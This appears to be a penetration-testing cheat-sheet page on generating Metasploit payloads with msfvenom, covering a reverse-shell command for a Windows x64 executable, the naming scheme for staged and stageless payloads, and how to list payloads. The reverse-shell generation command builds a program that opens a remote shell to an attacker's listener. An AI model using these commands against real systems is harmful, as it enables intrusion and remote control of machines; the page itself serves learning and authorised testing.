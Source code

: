 # Payload

### Generating

{% code title="Basic" overflow="wrap" %}
```shell
msfvenom -p <PAYLOAD> <OPTIONS>
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# to generate a Windows x64 Reverse Shell in an exe format

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
{% endcode %}



### Naming

#### Base

```bash
<OS>/<arch>/<payload>

# EX: x86 linux
linux/x86/shell_reverse_tcp

# EX: Windows 32bit
windows/shell_reverse_tcp
```

#### Staged or Stageless?

```bash
# Stageless standard naming(using '_') :
linux/x86/shell_reverse_tcp

# Staged standard naimng(using '/') :
linux/x86/shell/reverse_tcp
```



### List of Payloads

```bash
msfvenom --list payloads
```
